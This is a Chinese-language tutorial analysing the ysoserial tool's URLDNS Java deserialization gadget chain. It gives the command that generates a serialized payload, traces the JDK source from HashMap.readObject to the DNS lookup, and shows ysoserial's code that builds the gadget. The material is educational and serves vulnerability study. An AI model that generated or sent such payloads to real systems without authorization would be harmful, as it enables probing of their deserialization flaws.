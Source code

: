 ### ysoserial简单入手

#### 简单了解ysoserial

* ysoserial是一个生成java序列化payload的工具

* 大致使用方式如下

  * 可以查看可用的利用链

  ![image-20240526173633470](./images/image-20240526173633470.png)

  * 生成序列化对象,并输出到文件

```shell
# URLDNS为利用链,http://test.io为要执行的命令,当然这里由于URLDNS的特殊性,不能执行命令,这里的链接只是进行一次dnslog,payload.bin则是将序列化对象输出到文件
java -jar ysoserial-all.jar URLDNS http://test.io > payload.bin
```

![image-20240526173906876](./images/image-20240526173906876.png)

#### ysoserial的对于URLDNS的简单调试

前面对于ysoserial的使用只是直接生成了攻击的序列化对象,我们并不了解整个攻击链的形成,借助对于ysoserial源码的分析,我们可以了解整个攻击链是如何形成的.我们可以通过调试ysoserial的源码,了解一条序列化链从生成到执行的全过程.

* 下载搭建项目
* 找到URLDNS的相关类

![image-20240529195025544](./images/image-20240529195025544.png)

* 可能是作者为了方便大家调试,这里在idea中直接运行该类包括序列化和反序列化两个过程,也就是生成和利用一步到位.运行时记得设置参数,这里设置的为dnslog的目标.

![image-20240529195227451](./images/image-20240529195227451.png)

![image-20240529195416163](./images/image-20240529195416163.png)

接下来让我们简单分析一下URLDNS序列化和反序列化的过程:

* URLDNS.main调用PayloadRunner.run(URLDNS.class, args)
* PayloadRunner.run(URLDNS.class, args)中通过反射获取URLDNS.class实例,然后通过getObject得到要序列化的对象
* 调用相关工具类Serializer.serialize(objBefore)序列化对象
* 调用相关工具类Deserializer.deserialize(serialized)反序列化对象,利用完成

### 分析URLDNS

* 直接在反序列化处下断点,对其进行调试,这里我们也不可能去复现最初发现者的发现流程,我们就根据已知的信息,是HashMap的readObject函数中的putVal(hash(key), key, value, false, false);触发了漏洞,在该处下一个断点,分析其前后的调用链

```java
// PayloadRunner调研相关工具类反序列化对象
final Object objAfter = Deserializer.deserialize(serialized);

// 反序列化的方法
public static Object deserialize(final InputStream in) throws ClassNotFoundException, IOException {
		final ObjectInputStream objIn = new ObjectInputStream(in);
		return objIn.readObject();
	}

// 反序列化目标HashMap对象自身的readObject,在putVal(hash(key), key, value, false, false);的hash(key)进入下一步,key是URL类
 private void readObject(ObjectInputStream s)
        throws IOException, ClassNotFoundException {

        ObjectInputStream.GetField fields = s.readFields();

        // Read loadFactor (ignore threshold)
        float lf = fields.get("loadFactor", 0.75f);
        if (lf <= 0 || Float.isNaN(lf))
            throw new InvalidObjectException("Illegal load factor: " + lf);

        lf = Math.min(Math.max(0.25f, lf), 4.0f);
        HashMap.UnsafeHolder.putLoadFactor(this, lf);

        reinitialize();

        s.readInt();                // Read and ignore number of buckets
        int mappings = s.readInt(); // Read number of mappings (size)
        if (mappings < 0) {
            throw new InvalidObjectException("Illegal mappings count: " + mappings);
        } else if (mappings == 0) {
            // use defaults
        } else if (mappings > 0) {
            float fc = (float)mappings / lf + 1.0f;
            int cap = ((fc < DEFAULT_INITIAL_CAPACITY) ?
                       DEFAULT_INITIAL_CAPACITY :
                       (fc >= MAXIMUM_CAPACITY) ?
                       MAXIMUM_CAPACITY :
                       tableSizeFor((int)fc));
            float ft = (float)cap * lf;
            threshold = ((cap < MAXIMUM_CAPACITY && ft < MAXIMUM_CAPACITY) ?
                         (int)ft : Integer.MAX_VALUE);

            // Check Map.Entry[].class since it's the nearest public type to
            // what we're actually creating.
            SharedSecrets.getJavaOISAccess().checkArray(s, Map.Entry[].class, cap);
            @SuppressWarnings({"rawtypes","unchecked"})
            Node<K,V>[] tab = (Node<K,V>[])new Node[cap];
            table = tab;

            // Read the keys and values, and put the mappings in the HashMap
            for (int i = 0; i < mappings; i++) {
                @SuppressWarnings("unchecked")
                    K key = (K) s.readObject();
                @SuppressWarnings("unchecked")
                    V value = (V) s.readObject();
                putVal(hash(key), key, value, false, false);
            }
        }
    }

// 又调用了URL的hashCode()
static final int hash(Object key) {
        int h;
        return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);
    }

// handler.hashCode(this)又调用了URLStreamHandler的hashCode
public synchronized int hashCode() {
        if (hashCode != -1)
            return hashCode;

        hashCode = handler.hashCode(this);
        return hashCode;
    }

// 关注InetAddress addr = getHostAddress(u);继续跟进
protected int hashCode(URL u) {
        int h = 0;

        // Generate the protocol part.
        String protocol = u.getProtocol();
        if (protocol != null)
            h += protocol.hashCode();

        // Generate the host part.
        InetAddress addr = getHostAddress(u);
        if (addr != null) {
            h += addr.hashCode();
        } else {
            String host = u.getHost();
            if (host != null)
                h += host.toLowerCase().hashCode();
        }

        // Generate the file part.
        String file = u.getFile();
        if (file != null)
            h += file.hashCode();

        // Generate the port part.
        if (u.getPort() == -1)
            h += getDefaultPort();
        else
            h += u.getPort();

        // Generate the ref part.
        String ref = u.getRef();
        if (ref != null)
            h += ref.hashCode();

        return h;
    }

// 实际上调研了URL类的getHostAddress
protected InetAddress getHostAddress(URL u) {
        return u.getHostAddress();
    }

//  hostAddress = InetAddress.getByName(host)已经很直观了,从方法名和变量名就可以看出从host获取ip,就进行了dns查询
synchronized InetAddress getHostAddress() {
        if (hostAddress != null) {
            return hostAddress;
        }

        if (host == null || host.isEmpty()) {
            return null;
        }
        try {
            hostAddress = InetAddress.getByName(host);
        } catch (UnknownHostException | SecurityException ex) {
            return null;
        }
        return hostAddress;
    }
```



* 前文中,URLDNS序列化和反序列化的过程中,通过URLDNS类的getObject获取了要反序列化的对象,在分析完了URLDNS链反序列化的过程后,让我们分析一下该方法

```java
 public Object getObject(final String url) throws Exception {

                // SilentURLStreamHandler是我们继承URLStreamHandler实现的一个类,这里没有什么实际意义,只是为了满足new URL类时的参数要求
                URLStreamHandler handler = new SilentURLStreamHandler();

                // HashMap的readObject是触发漏洞的直接原因
                HashMap ht = new HashMap(); 
                URL u = new URL(null, url, handler); 
                ht.put(u, url); 

                Reflections.setFieldValue(u, "hashCode", -1); 

                return ht;
        }

static class SilentURLStreamHandler extends URLStreamHandler {

                protected URLConnection openConnection(URL u) throws IOException {
                        return null;
                }

                protected synchronized InetAddress getHostAddress(URL u) {
                        return null;
                }
        }
```

### URLDNS的特殊意义

* URLDNS没有用到其他第三方库类,如果有反序列化点,可以用于探测反序列化漏洞是否存在